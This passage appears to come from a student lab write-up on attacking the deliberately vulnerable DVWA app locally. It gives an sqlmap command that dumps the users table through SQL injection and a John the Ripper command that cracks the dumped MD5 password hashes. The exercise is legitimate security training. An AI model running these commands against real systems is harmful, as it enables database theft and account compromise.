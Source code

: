 
-T: Specifies the target table to operate on.
--dump:
This option tells sqlmap to extract and display the contents of the specified table (users). It retrieves all rows and columns from the users table

```bash
sqlmap -u "http://localhost:8080/vulnerabilities/sqli" --cookie="PHPSESSID=8i0tfhbnhtb8oe03hmukldr8n3; security=medium " --data="id=1&Submit=Submit" --batch -D dvwa -T users --dump
```

![image](https://github.com/user-attachments/assets/70f0eef2-adaa-4242-b3d2-279322f1da2b)


Retrun all columns and all row of table named users


**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:

## 1. Dowload John the Ripper


```bash
sudo apt-get install john
```
![image](https://github.com/user-attachments/assets/65108fed-599b-41b1-8439-885bfa231c6d)

or on windown download from `https://download.openwall.net/pub/projects/john/contrib/windows/` 


Download successfully

## 2. Make format to use John the Ripper 

![image](https://github.com/user-attachments/assets/96d9bbab-0846-497c-9ff4-fd688a34939b)


## 3. You can see the password has been hashed next to it

--format: Specifies the type of hashing algorithm used. John the Ripper supports various formats, including raw-md5, sha256, bcrypt, and more. Specifying the correct format is essential for accurate cracking.

```hash
.\john.exe --format=raw-md5 C:\Users\ASUS\Downloads\hash.txt
```

![image](https://github.com/user-attachments/assets/6f691a82-63d9-4f8d-8290-272dab4fbb2f)





`Conclusion`: In this exercise, I demonstrated the process of exploiting SQL injection vulnerabilities in DVWA using SQLMap to gather database information, including tables and user details. Following this, I utilized John the Ripper to crack the database users' passwords. This practical approach emphasizes the need for secure coding, proper database configuration, and the importance of securing web applications against SQL injection attacks to protect sensitive information from being compromised.

